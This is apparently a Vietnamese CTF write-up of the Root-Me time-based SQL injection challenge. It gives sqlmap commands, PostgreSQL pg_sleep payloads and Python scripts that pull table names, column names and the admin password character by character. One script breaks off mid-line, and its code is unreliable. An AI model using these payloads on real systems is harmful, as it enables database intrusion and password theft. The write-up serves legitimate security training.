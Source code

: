 # SQL injection - Time based 

Point: 45

Be patient

Statement: Retrieve administrator’s password.

Related ressource: [Time-Based Blind SQL Injection using Heavy Queries](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Time%20based%20blind%20SQL%20Injection%20using%20heavy%20queries.pdf?_gl=1*31a6v3*_ga*MTE0NDg5MTA5LjE2Nzk2MzIzMDY.*_ga_SRYSKX09J7*MTY4Mjc0Nzk4OC44MS4xLjE2ODI3NDgwMjAuMC4wLjA.)

# Overview:

Time based SQL injection-là 1 kiểu tấn công blind SQL thường được dùng khi không còn cách nào khác để khai thác cơ sở dữ liệu.Kĩ thuật này gửi 1 truy vấn đến cơ sở dữ liệu, buộc cơ sở dữ liệu phải đợi 1 khoảng thời gian trước khi phản hồi. Và dựa vào thời gian phản hồi ấy hacker có thể xác định được truy vấn đưa ra là đúng hay sai. Thông thường là kiểm tra thứ tự từng kí tự của bảng hay của cột từ đó đạt được tên bảng tên cột và cả data.

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/235286776-993a4abe-07ac-4f5a-b039-5538fd5e6b36.png)

Có 2 phần chính là `Login` và `Member list`. Bài này mình giải bằng 2 cách SQL map và code python.

# Solution:

## SQLmap

Khi ta chuyển sang phần `member` và chọn `admin` thì URL có thay đổi, nên ta có thể khai thác từ tham số đó

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 --dbs`

![image](https://user-images.githubusercontent.com/115911041/235287468-b2ba4c20-07b0-4fff-ae10-adf0d4f50df2.png)

Kết quả cho ra database `public`.Tiếp tục truy cập vào `public`.

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1 --time-sec=3 -D public --tables`

![image](https://user-images.githubusercontent.com/115911041/235288969-3bf14840-e3a8-4e22-a377-6564d30394e2.png)

Ra kết quả có tables `users`. Tiếp tục vào table `users`

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 -D public -T users --columns`

![image](https://user-images.githubusercontent.com/115911041/235289845-443aaeab-772f-44a8-8c43-d0676bb7a7aa.png)

Bước cuối chỉ cần lấy data các column nữa là xong


## Script Python

Vì mình đã chạy sqlmap ở trên nên database này đang chạy ở verssion PostgreSQL. Nên payload được dùng là

`;select case when 1=1 then (select pg_sleep(1)) else (select pg_sleep(0)) end -- -`

Mình tham khảo các hàm [ở đây](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

Bây giờ ta sẽ tiến hành khai thác các tên bảng, tên cột được tạo bởi user bằng cách dùng thư viện requests và thư viện time của python. Với payload có dạng như sau:

```
;select case when length((select array_to_string(array(select table_name::text from information_schema.tables where table_schema in ($$public$$)),$$:$$)::text))={tableNameLen} then (select pg_sleep(5)) else (select pg_sleep(0)) end -- --
```

Source code 

```
import requests
import time

# http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1;select case when 1=1 then (select pg_sleep(2)) else (select pg_sleep(0))-- --

# Find list of table_names splited by ":" which created by user
# queryTableName = 

url = "http://challenge01.root-me.org/web-serveur/ch40/index.php"

# Find length of table_name list
tableNameLen = 0
print("Finding length of table_name list....")
while True:
    tableNameLen += 1
    queryTableLen = f"1;select case when length((select array_to_string(array(select table_name::text from information_schema.tables where table_schema in ($$public$$)),$$:$$)::text))={tableNameLen} then (select pg_sleep(1)) else (select pg_sleep(0)) end -- --"
    start = time.monotonic()
    r = requests.get(url, params={"action": "member", "member": queryTableLen})
    roundtrip = time.monotonic() - start
    if roundtrip > 1:
        break

print(f"==> table_name list has {tableNameLen} characters")
print("-------------")

# Find Tables_Names list
tableName = ""
print("Finding table_names list......")
for i in range(1, tableNameLen + 1):
    for j in range(33, 127):
        queryTableName = (
            f"1;select case when substr((select array_to_string(array(select table_name::text from information_schema.tables where table_schema in ($$public$$)),$$:$$)::text),{i},1)=CHR({j}) then (select pg_sleep(1)) else (select pg_sleep(0)) end-- -"
        )
        start = time.monotonic()
        r = requests.get(url, params={"action": "member", "member": queryTableName})
        roundtrip = time.monotonic() - start
        if roundtrip > 1:
            tableName += chr(j)
            print(f"{tableName}...")
            break

print(f"==> List of table_name is: {tableName}")
print("--------------------------------------------------")

# Find list of column_names splited by : which created by user
# Find length
columnNameLen = 0
print("Finding length of column_names list......")
while True:
    columnNameLen += 1
    queryColumnLen = f"1;select case when length((select array_to_string(array(select column_name::text from information_schema.columns where table_schema in ($$public$$)),$$:$$)::text))={columnNameLen} then (select pg_sleep(1)) else (select pg_sleep(0)) end -- --"
    start = time.monotonic()
    r = requests.get(url, params={"action": "member", "member": queryColumnLen})
    roundtrip = time.monotonic() - start
    if roundtrip > 1:
        break

print(f"==> Column_name list has {columnNameLen} characters")
print("----------")

# Find Column_names list
columnName = ""
for i in range(1, columnNameLen + 1):
    for j in range(33, 127):
        queryColumnName = ()
    f"1;select case when substr((select array_to_string(array(select column_name::text from information_schema.columns where table_schema in ($$public$$)),$$:$$)::text),{i},1)=CHR({j}) then (select pg_sleep(1)) else (select pg_sleep(0)) end-- -
       
```

Sau đó thay đổi 1 chút để tìm password

```
import requests, time

url = 'http://challenge01.root-me.org/web-serveur/ch40/index.php'

# Find length of admin password
adminPassLen = 0
print("Finding length of admin password....")
while True:
    adminPassLen += 1
    queryPassLen = f"1;select case when length((select array_to_string(array(select password::text from users where id = 1),$$:$$)::text))={adminPassLen} then (select pg_sleep(5)) else (select pg_sleep(0)) end -- --"
    start = time.time()
    r = requests.get(url, params={'action': 'member', 'member': queryPassLen})
    roundtrip = time.time() - start
    if roundtrip > 2:
        break

print('==> admin password has ' + str(adminPassLen) + ' characters')
print('-------------')

# Find admin password
adminPass = ''
print('Finding admin password......')
for i in range(1, adminPassLen + 1):
    for j in range(33, 127):
        queryadminPass = f"1;select case when substr((select array_to_string(array(select password::text from users where id = 1),$$:$$)::text),{i},1)=CHR({j}) then (select pg_sleep(5)) else (select pg_sleep(0)) end-- -"
        start = time.time()
        r = requests.get(url, params={'action': 'member', 'member': queryadminPass})
        roundtrip = time.time() - start
        print(j)
        print(roundtrip)
        if roundtrip > 2:
            adminPass += chr(j)
            print(adminPass + '...')
            break

print('==> admin password is: ' + adminPass)
print('-----------------------------------------------')

# Find list of table names created by user
tableNames = []
print('Finding list of table names...')
for i in range(1, 20):
    queryTableNames = f"1;select case when EXISTS(SELECT table_name FROM information_schema.tables WHERE table_name::text like $$user_table_{i}$$) then (select pg_sleep(5)) else (select pg_sleep(0)) end-- -"
    start = time.time()
    r = requests.get(url, params={'action': 'member', 'member': queryTableNames})
    roundtrip = time.time() - start
    if roundtrip > 2:
        tableNames.append(f'user_table_{i}')
        print(f'Found table: user_table_{i}')
    else:
        break

print(f'List of table names created by user: {tableNames}')
```

